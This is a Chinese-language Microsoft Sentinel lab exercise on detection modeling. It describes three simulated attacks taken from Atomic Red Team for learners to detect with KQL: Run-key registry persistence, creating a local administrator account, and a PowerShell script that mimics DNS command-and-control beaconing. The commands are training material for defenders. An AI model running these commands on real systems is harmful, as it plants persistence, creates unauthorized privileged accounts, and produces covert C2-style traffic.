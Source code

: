 ```yaml
---
lab:
  title: 练习 4 - 了解检测建模
  module: Module 7 - Create detections and perform investigations using Microsoft Sentinel
ms.openlocfilehash: f2b41a44b3661f89f27ff8d22063244ce497fa5a
ms.sourcegitcommit: 175df7de88c9a609f8caf39840664bf992c5b6dc
ms.translationtype: HT
ms.contentlocale: zh-CN
ms.lasthandoff: 02/05/2022
ms.locfileid: "138025495"
---
```

# <a name="module-7---lab-1---exercise-4---understand-detection-modeling"></a>模块 7 - 实验室 1 - 练习 4 - 连接检测建模

### <a name="task-1-understand-the-attacks"></a>任务 1：了解攻击

>**重要说明：在此练习中你不会执行任何操作。**  这些说明只说明了在后续练习中将执行的攻击。 请仔细阅读本页。

攻击模式基于开源项目： https://github.com/redcanaryco/atomic-red-team


#### <a name="attack-1---persistence-with-registry-key-add"></a>攻击 1 - 通过注册表项添加实现的持久性攻击

攻击者会在运行注册表项中添加一个程序。 这通过使程序在用户每次登录时都能运行来实现持久性。

```
REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "SOC Test" /t REG_SZ /F /D "C:\temp\startup.bat"
```

#### <a name="attack-2---user-add-and-elevate-privilege"></a>攻击 2 - 用户添加和特权提升

攻击将添加新建用户并将新用户提升到管理员组。 这会让攻击者能够使用有特权的其他帐户登录。

```
net user theusernametoadd /add
net user theusernametoadd ThePassword1!
net localgroup administrators theusernametoadd /add
```

#### <a name="attack-3---dns--c2"></a>攻击 3 - DNS / C2 

攻击者会向命令发送大量 DNS 查询，并控制 (C2) 服务器。 目的是对来自单个源系统或发往单个目标域的 DNS 查询的数目触发基于阈值的检测。

```
param(
    [string]$Domain = "microsoft.com",
    [string]$Subdomain = "subdomain",
    [string]$Sub2domain = "sub2domain",
    [string]$Sub3domain = "sub3domain",
    [string]$QueryType = "TXT",
        [int]$C2Interval = 8,
        [int]$C2Jitter = 20,
        [int]$RunTime = 240
)
$RunStart = Get-Date
$RunEnd = $RunStart.addminutes($RunTime)
$x2 = 1
$x3 = 1 
Do {
    $TimeNow = Get-Date
    Resolve-DnsName -type $QueryType $Subdomain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
    if ($x2 -eq 3 )
    {
        Resolve-DnsName -type $QueryType $Sub2domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x2 = 1
    }
    else
    {
        $x2 = $x2 + 1
    }
    if ($x3 -eq 7 )
    {
        Resolve-DnsName -type $QueryType $Sub3domain".$(Get-Random -Minimum 1 -Maximum 999999)."$Domain -QuickTimeout
        $x3 = 1
    }
    else
    {
        $x3 = $x3 + 1
    }
    $Jitter = ((Get-Random -Minimum -$C2Jitter -Maximum $C2Jitter) / 100 + 1) +$C2Interval
    Start-Sleep -Seconds $Jitter
}
Until ($TimeNow -ge $RunEnd)
```


### <a name="task-2-understand-detection-modeling"></a>任务 2：了解检测建模

本实验室中使用的攻击检测配置循环代表所有数据源，虽然你仅专注于两个特定数据源。

要构建检测，从构建 KQL 语句开始。 你将开始攻击主机，因此将使用代表数据开始构建 KQL 语句。

以下实验室在安装了 Defender for Endpoint Windows 主机和安装了 Sysmon 的 Windows 上运行相同的攻击。 构建检测时，你将看到每一种中数据规范化的差异。

有 KQL 语句后，即可创建分析规则。

触发规则并创建警报和事件后，调查以确定你是否提供了可帮助安全运营分析师进行调查的字段。

接下来，你将对分析规则进行其他更改。

>**注意：** 为了方便演示实验室，某些警报触发的时间期限较短。

# <a name="proceed-to-exercise-5"></a>继续完成练习 5
